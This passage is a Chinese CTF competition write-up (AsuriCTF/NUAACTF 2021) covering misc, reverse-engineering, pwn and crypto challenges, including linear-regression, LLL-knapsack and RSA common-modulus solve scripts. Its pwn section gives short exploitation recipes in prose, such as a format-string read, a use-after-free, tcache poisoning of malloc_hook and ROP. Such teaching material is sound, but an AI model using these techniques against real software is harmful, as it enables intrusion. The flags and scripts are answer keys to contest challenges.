[(20, 1098.278), (455, 22848.531), (131, 6648.615), (488, 24500.666), (48, 2498.193), (276, 13899.408), (28, 1498.131), (86, 4398.853), (196, 9898.668), (326, 16398.231), (381, 19148.7), (63, 3248.501), (27, 1448.238), (386, 19399.918), (240, 12098.565), (239, 12048.603), (293, 14749.701), (363, 18248.92), (172, 8698.375), (181, 9148.851), (340, 17099.405), (265, 13349.585), (389, 19548.138), (469, 23548.322), (401, 20148.573), (353, 17749.481), (441, 22150.277), (163, 8248.245), (62, 3198.467), (436, 21899.306)]
[(341, 23924.127), (184, 12933.254), (281, 19723.718), (428, 30013.631), (176, 12373.595), (364, 25533.587), (205, 14403.129), (60, 4253.335), (487, 34145.59), (112, 7893.573), (78, 5513.743), (472, 33094.006), (95, 6703.269), (199, 13984.079), (98, 6913.618), (66, 4673.34), (196, 13773.778), (104, 7333.186), (169, 11883.735), (274, 19234.415), (194, 13634.025), (266, 18673.773), (258, 18114.224), (166, 11673.939), (59, 4183.159), (413, 28964.462), (210, 14753.414), (155, 10903.648), (303, 21264.794), (390, 27353.912)]
[(266, 17416.256), (417, 27231.231), (226, 14815.612), (154, 10135.945), (387, 25281.883), (232, 15205.465), (239, 15660.331), (17, 1230.284), (68, 4545.643), (20, 1425.137), (168, 11045.438), (93, 6170.171), (166, 10915.611), (26, 1815.332), (426, 27816.6), (81, 5390.485), (183, 12020.856), (156, 10265.989), (463, 30221.854), (45, 3050.258), (257, 16830.757), (271, 17740.921), (345, 22551.32), (289, 18910.733), (198, 12996.069), (332, 21705.53), (485, 31652.224), (203, 13320.834), (295, 19301.314), (14, 1035.21)]
```

18 行数据，每行一个 list，里面包含 30 个 tuple。

结合题目名字和描述 `ItIsMath`，应该就是和数学有点关系，把数据当成坐标点，画一画可以发现每一行的点连起来都近似一条直线。

后面也提示了是线性回归。

于是建立一个线性回归模型，依次算出每条直线的斜率和截距，然后 `round` 取个整，转化为 ASCII，拼起来就是 flag。

**Exp:**

```python
from sklearn.linear_model import LinearRegression
import numpy as np

with open('data.txt') as f:
    a = f.read().splitlines()
a = [eval(x) for x in a]

ans = []
for i in range(len(a)):
    xx, yy = list(zip(*a[i]))
    xx = np.array(xx).reshape(-1, 1)
    yy = np.array(yy)
    linear_regression = LinearRegression(normalize=True)
    linear_regression.fit(xx, yy)
    message = linear_regression.coef_[0]
    # print(message)
    ans.append(round(message))
    y = linear_regression.intercept_
    # print(y)
    ans.append(round(y))

print(bytes(ans))
```

得到 flag 

`flag{9D4f8e0f-1a5B9E35-aef0fBd2bF5A}`

当然也可以直接用 numpy 的 polyfit 来

```python
import numpy as np

with open('data.txt') as f:
    a = f.read().splitlines()
data = [eval(x) for x in a]

for points in data:
    x = [_[0] for _ in points]
    y = [_[1] for _ in points]
    x = np.array(x)
    y = np.array(y)
    k, b = np.polyfit(x, y, 1)
    print(chr(int(k)), end='')
    print(chr(int(b)), end='')
```


### 出题思路

这题其实是比赛前一天晚上到比赛当天凌晨出的。本来这题是可有可无的，毕竟 misc 题目已经不少了，可是喵喵想着就出了一题太少了，虽然那道题放在校赛可能有点难，但万一被秒了可不好，再出道难一点的吧。

这题题目描述里的 `Do you remember the last NUAACTF? `，其实是因为上一届 NUAACTF *（在今年上半年，好像是因为疫情延期了，233）* 出了一题也用到了域名 TXT 记录的，这里相当于回顾一下。

之所以 TXT 里放 base32，是因为之前出题有过某些情况下解析出来大小写会锅，而 base32 的话字母全是大写的就不存在这个问题了。

至于 pikachu，当然 ta 是可爱啊，喵喵说是随意找然后正好看到的你信不信呢？确实是这样。

这个 pikachu 在原来的域名执行的结果是 ctf.asuri.club:xxxxx，也就是平台上的一个端口，访问得到的是和 https://itismath.vercel.app/ 几乎一样的结果，但由于比赛的时候服务器被 DDoS 攻击了，之后救回来系统重启了，虽然配了 `restart=always`，不知道为啥部署的容器还是没了，考虑到稳定性和可靠性干脆直接一键部署到 vercel 好了。相应地也就换了个域名，为了让选手不白做题，就说能解出原来的域名也直接给下一步了。

最后就是题目里说的 Math 了，线性回归，算是比较简单能想到的一个数学应用吧，甚至为了简单给相应系数加的噪声（随机数）都极小，这个拟合结果貌似都 R^2=1 了 *（好像是吧，懒得再看了*

不过由于前面的步骤有点绕，比赛的时候问了选手进度，然后即使是疯狂放 hint，最后也只有一队校外的出了，校内也有一两队到线性回归这步骤但没时间解了，还是挺可惜的吧。

另外，还有出题人的一些**运维故事和心得体会**，放在博客上了：[CTF | 2021 AsuriCTF / NUAACTF Misc 部分官方 WriteUp](https://miaotony.xyz/2021/12/16/CTF_2021AsuriCTF_NUAACTF_Misc/?utm_source=github_asuri)

最后，**感谢大家来玩，希望大家都能有所收获喵~**


# Rev

## Legende Lof Links
其实题目里面藏了一个`LLL`在里面  

### 逆向分析
程序运行起来的时候，能够看到一些奇怪的截图  
   

分析找到这个逻辑:  
   
这些字符看起来有点奇怪，进行凯撒加密之后能够解开:
```
legends keywords
```
可以看到这边给了一串数字`6421025468326853`，这个数字可以在代码中搜到:  
   
虽然从
可以看到是一个匹配的逻辑
```cpp
char __thiscall check_value(__m128i **this, int a2, int a3)
{
  __m128i *v3; // edi
  __m128i *v4; // ecx
  unsigned int v5; // edx
  unsigned int i; // esi
  unsigned __int64 v7; // kr00_8
  int v9; // eax

  v3 = this[1];
  v4 = *this;
  v5 = 0;
  for ( i = 0; v4 != v3; v4 = (__m128i *)((char *)v4 + 24) )
  {
    v7 = __PAIR64__(_mm_cvtsi128_si32(_mm_srli_si128(*v4, 12)), _mm_cvtsi128_si32(_mm_srli_si128(*v4, 8)))
       + __PAIR64__(v5, i);
    v5 = HIDWORD(v7);
    i = v7;
  }
  if ( i == a2 && v5 == a3 )
    return 1;
  v9 = sub_402220(std::cout, "Have fun!");
  std::ostream::operator<<(v9, sub_4025C0);
  return 0;
```
从逻辑上看可以看出来，这边再进行一个类似累加的过程。（从汇编可以看出来，本质上压入的是一个长数字，但是这边将数字分成了两个不同的数字压入栈中）  
结合当前函数的外部，可以推测此题 **企图让某些地方的值加起来等于这个总数**。

简单玩一下游戏，或者直接去翻找资源文件能发现，游戏刚开始就往下走能够走到一个奇怪的地图
  
这个地图的构造是一个 **8*5大小的格子方块组成，其中每一行8个格子**。找到对应的地图文件，叫做nazo.tmx，使用工具`TiledMap`打开后看到如下图:  
  
会发现这里面的每一个对象身上都带有一个叫做`value`的值。于是可以猜测，这边的怪物身上的值会以某种形式传入到那个`check_value`函数中，于是在函数中下断点调试，跟到这一步
  
此处能够发现，这个地方
这个值分析程序主要逻辑之后，能够发现程序尝试读取这个地方的数值，并且用eax和esi分别存储高位和低位，结合逆向分析可知此时为一个大数加法运算。  

### 算法解密
结合题目提到，不小心把公钥生成脚本上传上去，可以知道这个`nazo.tmx`中包含的正是彩蛋解密用的密钥。分析脚本可知是一个密码学中的常见背包问题，可通过LLL算法计算出最短向量来进行解密。（其中题目中也有暗示这个算法）脚本本身也很容易在网上搜到对应的解密脚本，于是将对应资源文件中的数据读取出来之后，可以结合逆向分析的结果，直接写出对应的解密脚本:
```python
pubKey = [288987930484713, 340150388569723, 775832214910355, 216867890037121, 501352569419409, 318822438792492, 158678987418047, 103047289635008, 232924311836164, 825277525877592, 266171732738326, 232058805490403, 503492576572133, 361556090493722, 185759789132988, 141839477664327, 548824923286652, 13387599878646, 459796431386589, 353077318969337, 511286054037178, 57089108809875, 584998735988633, 284676495083131, 800281594291554, 371509900212370, 392227033009677, 840774125862985, 195657954859337, 509931569484802, 159469040461778, 809855051248225, 459522106994522, 605887145649518, 508449489953120, 836314895545713, 244798820584214, 467004182165356, 381450144739742, 581067701595314]

nbit = len(pubKey)
S = 6421025468326853  

print("start")
# create a large matrix of 0's (dimensions are public key length +1)
A = Matrix(ZZ,nbit+1,nbit+1)
# fill in the identity matrix
for i in range(nbit):
    A[i,i] = 1
# replace the bottom row with your public key
for i in range(nbit):
    A[i,nbit] = pubKey[i]
# last element is the encoded message
A[nbit,nbit] = -S

res = A.LLL()
resfil = open("res.txt", 'w')
# print(res)
resfil.write(str(res))

res = A.LLL()
for i in range(0, nbit + 1):
    # print solution
    M = res.row(i).list()
    flag = True
    for m in M:
        if m != 0 and m != 1:
            flag = False
            break
    if flag:
        print(i, M)
        M = ''.join(str(j) for j in M)
        # remove the last bit
        M = M[:-1]
        M = hex(int(M, 2))[2:-1]
        print(M)
```
密钥解密逻辑  
  
拿到对应的序列之后，可以直接按照对应的序列打死怪物，然后打死boss获取彩蛋。或者通过逆向，找到打死boss之后的逻辑:  
  
可以看到当前在一个程序的全局变量上读取了大段的数据，并且调用解密函数。分析特征可知是一个AES-256-cbc加密，于是最终可写出解密脚本，最终解密得到的`flag.tmx`为  


## Warm up

一个很简单的逆向，看[源码](./rev/Warm%20up/xor.c)可知只是在 construct 过程中加了另一个异或和反调试。

## Destroyed ELF

首先修复 ELF Program Header，自己随便编译一个 elf 文件进行对照（比如 hello world，一般来说Ubuntu 20.04 和 18.04 的 gcc 都行）：

``` c
#include <stdio.h>

int main()
{
    return 0;
}
```

首先修复 magic word，修复之后打开会发现报错：

```
ELF file with PHT cannot be ET_REL
```

接下来就修复该字段为 0x3。

接着发现报错

The PHT overwrites previously loaded segments with different file contents.
Although the OS will likely succeed in loading this file,
we recommend you to analyze this file's PHT.

继续与自己编译出来的 binary 对比，发现 elf header size 也不正确，修改之。

接下来 IDA 就能正常解析了。

然后发现 start 函数只会输出错误的 flag，发现入口点被修改了，对比自己编译的binary，发现正常的位置在 0x1040 左右，而这个文件中的 start 函数位于 151F。向前追溯到 text 段开头，将 0x10e0 位置的代码 convert 并 create function 得到正确的 start 函数。接着将 header 中的 entry point 指向 0x10e0。

然而此时的 main 函数仍不正确，不过我们可以用多种方法定位 main 函数，这里找到 main 函数的地址是 0x15DF，create function 之后就可以正常逆向了。我们也可以将 start 中的main函数指向正确的位置。

接着会发现代码是先对 ELF Header 算了个哈希然后和 flag 异或，再和一个全局变量比较。动态调试获取哈希值然后和全局变量异或即可得到 flag。

注：这道题手动 patch 了几个位置，src 中提供的源码编译出来和题目不一致是正常现象。

# PWN
## format
格式化字符串
flag读入到了栈上
输入%7$s 即可读出flag
## thread
在sale_handler中存在sleep, 所以一个货品卖掉会先加钱过1s再清空数量, 买1份 卖两次就行了

## leaf
在二叉查找树的合并过程中存在UAF漏洞, 具体就是exchang中父亲的ch指针没有清空, check是short类型的, 构造堆然后orw即可

## tiny
多次调用alarm(sys_alarm)会返回剩余时间，在剩余2秒的时候调用sys_alarm，控制rax，调用sys_open

## can’t leak
利用unsortedbin残留指针申请到stdout->fileno,修改为2通过stderr流输出，泄露[‘environ’]得到栈地址，写orw
## nohook
每次edit后会检查free_hook和malloc_hook，不为空则清空，利用tcache->system，free(malloc_hook)来向malloc_hook写入system地址。或者打IO_FILE

## tanchishe
就一个输入点，不用逆向直接打，input函数会使得rop被复制到堆上，注意不破坏topsize就行

# Crypto

## checkin

1. 题目给出了加密函数，根据给出的a获取其乘法逆元。

```
(11n) mod 26 = 1
n = 19
```

2. 编写脚本解密，最后加上`{}_`即可。

```python
m = r"oclzloovydvblbvnucdhqpumj"
flag = ""

for i in m:
    flag += chr(((19 * (ord(i) - 0x61 - 11)) % 26) + 0x61)

print(flag)
```

## guessgame

```python
from pwn import * 
POST = 'ctf.asuri.club' 
HOST = '10000' 
r = remote(POST, HOST) 
for i in range(50-7): 
  r.sendline("1") 
for i in range(7):
  r.sendline("0") 
r.interactive()
```

## numbers


## easyRSA

根据题目给出的程序容易看出是RSA的共模攻击，最终exp。

```python
# coding=utf-8
import string
import gmpy
from rsa import transform,core
from Crypto.Util.number import long_to_bytes

def egcd(a, b):
    if a == 0:
        return b, 0, 1
    else:
        g, y, x = egcd(b % a, a)
        return g, x - b // a * y, y
def main():
    file1 = open("flag.enc1" ,'rb').read()
    c1 = transform.bytes2int(file1)

    file2 = open("flag.enc2" ,'rb').read()
    c2 = transform.bytes2int(file2)

    n = 0x00b0bee5e3e9e5a7e8d00b493355c618fc8c7d7d03b82e409951c182f398dee3104580e7ba70d383ae5311475656e8a964d380cb157f48c951adfa65db0b122ca40e42fa709189b719a4f0d746e2f6069baf11cebd650f14b93c977352fd13b1eea6d6e1da775502abff89d3a8b3615fd0db49b88a976bc20568489284e181f6f11e270891c8ef80017bad238e363039a458470f1749101bc29949d3a4f4038d463938851579c7525a69984f15b5667f34209b70eb261136947fa123e549dfff00601883afd936fe411e006e4e93d1a00b0fea541bbfc8c5186cb6220503a94b2413110d640c77ea54ba3220fc8f4cc6ce77151e29b3e06578c478bd1bebe04589ef9a197f6f806db8b3ecd826cad24f5324ccdec6e8fead2c2150068602c8dcdc59402ccac9424b790048ccdd9327068095efa010b7f196c74ba8c37b128f9e1411751633f78b7b9e56f71f77a1b4daad3fc54b5e7ef935d9a72fb176759765522b4bbc02e314d5c06b64d5054b7b096c601236e6ccf45b5e611c805d335dbab0c35d226cc208d8ce4736ba39a0354426fae006c7fe52d5267dcfb9c3884f51fddfdf4a9794bcfe0e1557113749e6c8ef421dba263aff68739ce00ed80fd0022ef92d3488f76deb62bdef7bea6026f22a1d25aa2a92d124414a8021fe0c174b9803e6bb5fad75e186a946a17280770f1243f4387446ccceb2222a965cc30b3929
    e1 = 17
    e2 = 65537
    s = egcd(e1, e2)
    s1 = s[1]
    s2 = s[2]

    if s1 < 0:
        s1 = -s1
        c1 = gmpy.invert(c1, n)
    elif s2 < 0:
        s2 = -s2
        c2 = gmpy.invert(c2, n)

    m = pow(c1, s1, n) * pow(c2, s2, n) % n
    print(str(long_to_bytes(m)))

if __name__ == '__main__':
    main()

#flag{number_is_very great}

```

## MLWE

Kyber是一个格密码算法，基于Module-LWE问题，是目前NIST标准热门候选算法。

因为尚未制定为标准，因此没有公开的test vectors，按照算法团队提供的参考实现就行。

所以直接给了算法的参考实现，密文ct和私钥sk，都是base64编码了一下。

所以decode到memory之后直接调用`indcpa_dec`即可。

源码链接：https://github.com/pq-crystals/kyber

题目hint：Kyber768 CPA PKE

flag{b138c574d2039fc2}

exp在附件中
